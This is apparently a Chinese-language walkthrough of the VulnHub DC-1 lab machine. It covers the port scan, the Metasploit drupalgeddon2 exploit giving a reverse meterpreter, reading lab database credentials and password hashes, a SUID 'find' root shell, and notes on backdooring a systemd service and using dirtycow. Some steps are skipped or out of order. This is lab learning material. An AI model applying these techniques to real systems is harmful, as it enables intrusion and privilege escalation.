 # DC: 1

2024-5-27 https://www.vulnhub.com/entry/dc-1,292/

difficulty: Beginner

## IP

192.168.5.30

## Scan

Open Port -> 22,80,111,48016

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41704/udp6  status
|   100024  1          48016/tcp   status
|   100024  1          48779/tcp6  status
|_  100024  1          49272/udp   status
48016/tcp open  status  1 (RPC #100024)
```

访问 80 web 服务，首页显示一个 Drupal CMS，先用 gobuster 进行目录扫描，看看有没有隐藏目录：

```
http://192.168.5.30/robots.txt
```

经过查询，这个 cms 存在漏洞，msf 中有集成的利用 exp：

```
unix/webapp/drupal_drupalgeddon2
```

设置好 RHOSTS 和 LHOST 后，run，就可以得到反弹的 meterpreter。

得到了第一个 flag1：

```
meterpreter > cat flag1.txt
Every good CMS needs a config file - and so do you.
```

提示我们寻找 cms 的配置文件，里面应该有数据库的密码，对应可能就是 ssh 用户的密码，或者是数据库中存储了相关的密码凭据。

发现数据库配置信息 /var/www/sites/default/settings.php ：

```
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

尝试 su flag4 不成功，只好进入数据库看看有没有用户信息：

```
use drupaldb;
select * from users;

admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg
```

尝试破解这两个哈希，找到明文。

得到 flag4：

```
www-data@DC-1:/home/flag4$ cat flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
```

提权到 root，suid 发现特殊程序 /usr/bin/find,直接进行利用：

```
find . -exec /bin/bash -p \; -quit

cd /root

bash-4.2# cat thefinalflag.txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

提权到 root：

```
www-data@DC-1:/etc/systemd/system$ ls -al syslog.service
lrwxrwxrwx 1 root root 35 Oct  8  2014 syslog.service -> /lib/systemd/system/rsyslog.service
www-data@DC-1:/etc/systemd/system$ cat syslog.service
[Unit]
Description=System Logging Service

[Service]
ExecStart=/usr/sbin/rsyslogd -n -c5
Sockets=syslog.socket
StandardOutput=null

[Install]
WantedBy=multi-user.target
Alias=syslog.service
```

这个 service 对 www-data 用户可写，可以将后门代码，写入到 ExecStart 替换原有的命令，然后服务器重启，便可以提权到 root。

内核版本较老，可以用 dirtycow 进行内核提权。
